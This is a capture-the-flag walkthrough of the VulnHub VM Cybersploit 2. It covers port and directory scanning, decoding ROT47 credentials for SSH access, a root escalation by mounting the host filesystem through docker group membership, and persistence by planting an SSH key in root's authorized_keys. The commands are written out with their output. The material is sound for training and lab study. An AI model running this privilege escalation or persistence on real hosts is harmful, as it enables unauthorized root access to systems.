

Cybersploit 2 can be found and downloaded at [https://www.vulnhub.com/entry/cybersploit-2,511/](https://www.vulnhub.com/entry/cybersploit-2,511/)

Cybersploit 2 was created by Shailendra Kumar Vishwakarma and you can find him on Twitter here [https://twitter.com/CyberSploit1](https://twitter.com/CyberSploit1)


Booting up this VM is as simple as getting it downloaded and stood up in Virtual Box I had to tweak its network adapter to make it work on my network but once its up and running we can log into our attacking box of choice and start with some basic recon.

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-18 22:07 CDT
Nmap scan report for 10.0.0.158
Host is up (0.00081s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   3072 ad:6d:15:e7:44:e9:7b:b8:59:09:19:5c:bd:d6:6b:10 (RSA)
|   256 d6:d5:b4:5d:8d:f9:5e:6f:3a:31:ad:81:80:34:9b:12 (ECDSA)
|_  256 69:79:4f:8c:90:e9:43:6c:17:f7:31:e8:ff:87:05:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: CyberSploit2
MAC Address: 08:00:27:30:A7:AD (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.81 ms 10.0.0.158

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.55 seconds
```


Kicking off an nmap scan we can see that this VM seems be a CentOS install running HTTP (Apache/2.4.37) and SSH (OpenSSH 8.0 (protocol 2.0)) on it. Were gonna go after HTTP first since in my experience SSH has always been a tougher nut to crack. In this case I am going to kick off a Nikto and dirb scan to see what kind of directory's we can find and if there are any obvious vulns in that config.

```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.0.0.158
+ Target Hostname:    10.0.0.158
+ Target Port:        80
+ Start Time:         2020-07-18 22:08:24 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.37 (centos)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD, TRACE
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8698 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2020-07-18 22:08:36 (GMT-5) (12 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

```
-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sat Jul 18 22:09:51 2020
URL_BASE: http://10.0.0.158/
WORDLIST_FILES: /opt/dirb/wordlists/big.txt

-----------------

GENERATED WORDS: 20458

---- Scanning URL: http://10.0.0.158/ ----
+ http://10.0.0.158/cgi-bin/ (CODE:403|SIZE:217)
==> DIRECTORY: http://10.0.0.158/noindex/

---- Entering directory: http://10.0.0.158/noindex/ ----
==> DIRECTORY: http://10.0.0.158/noindex/common/
+ http://10.0.0.158/noindex/index (CODE:200|SIZE:4006)

---- Entering directory: http://10.0.0.158/noindex/common/ ----
==> DIRECTORY: http://10.0.0.158/noindex/common/css/
==> DIRECTORY: http://10.0.0.158/noindex/common/fonts/
==> DIRECTORY: http://10.0.0.158/noindex/common/images/

---- Entering directory: http://10.0.0.158/noindex/common/css/ ----
+ http://10.0.0.158/noindex/common/css/styles (CODE:200|SIZE:71634)

---- Entering directory: http://10.0.0.158/noindex/common/fonts/ ----

---- Entering directory: http://10.0.0.158/noindex/common/images/ ----

-----------------
END_TIME: Sat Jul 18 22:10:30 2020
DOWNLOADED: 122748 - FOUND: 3
```

From the scan outputs we can see that Nikto is also seeing paths that are common with Apache configs which we can combine with what we saw in the nmap scan to more or less confirm at this point that we have Apache running here. We also know now we have a bunch of files we can look at here. The first thing that catches my eye is the /cgi-bin/ directory. This path is used by Apace installs to hold onto any executable code that is needed to make a website run; if unprotected in some cases an attacker can use this path to their advantage as it provides a foothold into the environment. In this case however we are getting an HTTP 403 Unauthorized back which means we will not be able to use it to our advantage. Now that we have some basic paths to look at we can begin to pull them down and start looking through the pages to see if there are any juicy tidbits left.



From this image we can see that upon browsing to the webserver we have ourselves a table of usernames and passwords. Thinking back to the original nmap scan we did we saw SSH open on this VM and trying each pair in turn against SSH none of them seem to work in their current form. However one of the usernames stands out as different from the rest "D92:=6?5C2" while this could be a service account login I think more than a few languages may have issues parsing those characters in the same string and that doesn't seem like something that a developer would want to deal with. Looking for more clues we then can cat through the source of the page to find a comment hidden way that the bottom "\<!----------ROT47----------\>"

Passing the odd stings we found through ROT47 we find that D92:=6?5C2 comes out to "shailendra" and its next field 4J36CDA=@:E\` comes out as "cybersploit1". Passing these back into SSH produces a valid login for the VM and we now have compromised this account.

Listing through this accounts home directory we find that Shailendra left us a clue as to what to look at next.

```
[shailendra@localhost ~]$ cat hint.txt
docker
```
It seems he wants us to take a closer look into docker lets start by confirming its installed.

```
[shailendra@localhost ~]$ find / -name docker -type f 2>/dev/null -exec ls -halt {} \;
-rwxr-xr-x. 1 root root 82M Jun 22 21:18 /usr/bin/docker
-rw-r--r--. 1 root root 114K Jun 22 21:09 /usr/share/bash-completion/completions/docker
```

Docker looks to be there but do we have permissions to access it?

```
[shailendra@localhost ~]$ id
uid=1001(shailendra) gid=1001(shailendra) groups=1001(shailendra),991(docker)
```
Looks like we do. This is a very dangerous prospect because I now as an attacker am part of the docker group on a box that its installed on. This is dangerous because as we have confirmed in the find docker seems to be installed under root which is the default way to do that. The problem this introduces that that any container that docker launches will inherit those rights from the docker program. In his blog post on the topic Chris Foster lays out a kill chain that explains how one could go about exploiting this in the wild to preform privilege escalation up to the root account on the local docker host machine. [https://fosterelli.co/privilege-escalation-via-docker](https://fosterelli.co/privilege-escalation-via-docker)  

In a nutshell this exploit works by telling docker to run a container that mounts the root filesystem "/" to "/hostOS" inside of that container from there the container will then chroot to /hostOS and launch a shell. Now since the container is launching the shell that will then inherit the privilege of its parent process (in this case docker which is running under root on the host node) effectively dropping us to a root shell running on the host node.

```
[shailendra@localhost ~]$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
Unable to find image 'chrisfosterelli/rootplease:latest' locally
latest: Pulling from chrisfosterelli/rootplease
a4a2a29f9ba4: Pull complete
127c9761dcba: Pull complete
d13bf203e905: Pull complete
4039240d2e0b: Pull complete
16a91ffa6f29: Pull complete
Digest: sha256:eb6be3ee1f9b2fd6e3ae6d4fda81a80bfdf21aad9bde6f1a5234f1baa58d4bb3
Status: Downloaded newer image for chrisfosterelli/rootplease:latest

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
sh-4.4# whoami; id
root
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:spc_t:s0
```

We can see that if we list out the processes with ps -ef --forest, our new /bin/sh shell is running with these privlages
```
root         826       1  0 01:28 ?        00:00:01 /usr/libexec/platform-python -Es /usr/sbin/tuned -l -P
root         827       1  0 01:28 ?        00:00:00 /usr/sbin/sshd -D -oCiphers=aes256-gcm@openssh.com,chacha20-poly1305@openssh.com,aes256-
root        1709     827  0 02:48 ?        00:00:00  \_ sshd: shailendra [priv]
shailen+    1725    1709  0 02:48 ?        00:00:00      \_ sshd: shailendra@pts/0
shailen+    1726    1725  0 02:48 pts/0    00:00:00          \_ -bash
shailen+    1932    1726  0 03:23 pts/0    00:00:00              \_ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
root         834       1  0 01:28 ?        00:00:22 /usr/bin/containerd
root        1975     834  0 03:23 ?        00:00:00  \_ containerd-shim -namespace moby -workdir /var/lib/containerd/io.containerd.runtime.v
root        1992    1975  0 03:23 pts/0    00:00:00      \_ /bin/bash exploit.sh
root        2021    1992  0 03:23 pts/0    00:00:00          \_ /bin/sh
root        2042    2021  0 03:27 pts/0    00:00:00              \_ ps -ef --forest
```

What I find super interesting about this is our shell is /bin/sh on the host node however because of the chroot we did its running inside of the context of that container we launched. Meaning that if we were to loose the container we would also loose our shell so it would be wise at this point to establish some persistence in this VM so the fictional SysAdmin or Blue Team has a harder time kicking us out.

I normally end up doing this by dropping an SSH key into /root/.ssh/authorized_keys that I generated on the attacking machine and logging in using it to get a proper root shell.

```
[root@localhost ~]# whoami; id;
root
uid=0(root) gid=0(root) groups=0(root),991(docker) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

From here its childs play to ls the files in /root and cat out flag.txt

```
[root@localhost ~]# ls
anaconda-ks.cfg  flag.txt  get-docker.sh  logs}
[root@localhost ~]# cat flag.txt
 __    ___   _      __    ___    __   _____  __
/ /`  / / \ | |\ | / /`_ | |_)  / /\   | |  ( (`
\_\_, \_\_/ |_| \| \_\_/ |_| \ /_/--\  |_|  _)_)

 Pwned CyberSploit2 POC

share it with me twitter@cybersploit1

              Thanks !
```
